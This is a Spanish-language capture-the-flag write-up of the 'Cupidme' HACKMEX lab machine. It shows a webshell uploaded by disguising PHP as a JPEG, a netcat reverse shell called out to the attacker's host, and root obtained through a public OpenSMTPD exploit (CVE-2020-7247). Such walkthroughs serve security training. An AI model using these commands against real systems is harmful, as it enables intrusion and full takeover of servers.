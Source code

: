 # Cupidme - HACKMEX

**OS**: Linux   
**Dificultad**: Basic   
**Puntos**: 5,550   

## Resumen 
- Unrestricted File Upload 
- OpenSMTPD - Remote Code Execution 

## Nmap Scan

`nmap 10.10.10.205` 

```
xen@xen-env:~/hackmex$ nmap 10.0.30.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 13:25 CDT
Nmap scan report for 10.0.30.187
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.37 seconds
xen@xen-env:~/hackmex$
```
## Enumeracion 

Enumerando el puerto 80 podemos observar dentro del codigo fuente el siguiente mensaje

```
<!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>-->
```

Haciendo un analisis del codigo fuente, vemos que hace un action hacia el archivo upload.php, en donde realiza una subida de archivos. Asi que probemos como reacciona a nuestra solicitud.

## Unrestricted File Upload

1er intento. Subimos un archivo sencillo

`curl -F "image=@file.txt" http://10.0.30.187/upload.php`

```
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

2do intento. Subimos un archivo php con cabecera jpeg

`curl -F "image=@xen.php" http://10.0.30.187/upload.php`

```
Success. file uploaded at images/xen.php
```

Una vez subido con exito nuestra webshell, podemos ejecutar comandos remotamente.

`curl http://10.0.30.187/images/xen.php?xen=id`

```
����
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora probamos una revershell

`curl "http://10.0.30.187/images/xen.php?xen=nc -e /bin/bash 10.10.0.26 2121"`

De nuestro lado recibiremos la conexion

```
xen@xen-env:~/hackmex$ nc -lvp 2121
listening on [any] 2121 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 56334
```

## OpenSMTPD - Remote Code Execution 

Viendo los servicios locales observamos un puerto muy relevante

```
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128             127.0.0.11:41037            0.0.0.0:*       
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*       
LISTEN    0         5                127.0.0.1:25               0.0.0.0:*       
LISTEN    0         128              127.0.0.1:9001             0.0.0.0:* 
```

Probando los puertos observamos lo siguiente

```
www-data@cupidme:/tmp$ nc 127.0.0.1 25 
nc 127.0.0.1 25 
220 cupidme.echocity-f.com ESMTP OpenSMTPD
```
Tratando de un servicio llamado OpenSMTP, por lo que buscando un exploit publico damos con el siguiente: [CVE-2020-7247](https://www.exploit-db.com/raw/47984)

Ejecutamos el exploit y esperamos conexion reversa
```
www-data@cupidme:/tmp$ python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
www-data@cupidme:/tmp$ 
```

Pwn!!

```
xen@xen-env:~/hackmex$ nc -lvp 2222
listening on [any] 2222 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 44170
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
